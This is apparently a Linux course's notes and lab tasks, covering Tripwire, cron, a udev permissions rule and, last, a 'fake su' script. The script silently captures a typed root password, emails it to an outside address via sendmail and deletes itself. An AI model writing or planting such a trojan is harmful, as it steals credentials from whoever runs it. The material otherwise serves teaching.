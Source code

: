 - What is `Tripwire`: A host-based intrusion detection system used for monitoring file integrity to detect unauthorized changes.

- Alternatives:
    
    - AIDE, OSSEC, Samhain, Snoopy Logger, and Chkrootkit.

- Why Encrypt Configuration Files:

    - Prevent tampering by attackers.
    - Protect sensitive information in the configuration.
    - Preserve system integrity and ensure monitoring functions correctly.

Encrypting configuration files and removing the plaintext versions enhances the security of the monitoring tool, making it harder for attackers to disable or bypass intrusion detection

#### What is `cron` and how to use it in order to run tasks at a specific time?

- What is `cron`: A scheduler used for running commands or scripts at specified times or intervals.

- Editing Crontab:

    - Run `crontab -e` to edit or create scheduled jobs.

- Define a Cron Job:

    - Use the format: `minute hour day-of-month month day-of-week command`.
    - Example: `30 3 * * * /path/to/script.sh` runs the script at 3:30 AM every day.

- Verify Cron Jobs: Use `crontab -l` to list existing jobs.

## Tasks

### Write a `dicedevice.rules` that configures the permission of dice device.

```sh
sudo nano /etc/udev/rules.d/99-dicedevice.rules
```

```ini
ACTION=="add", KERNEL=="dice*", GROUP="friends", MODE="0660"
```
### Write a script `su` that tricks mum.

```sh
#!/bin/bash

# Fake su
read -s -p "Password: " password
echo

# Send the password via email (using sendmail)
echo "Root password: $password" | sendmail jinlock99@sjtu.edu.cn

# Delete script and restore original PATH
rm -- "$0"
export PATH="${ORIGINAL_PATH}"
```
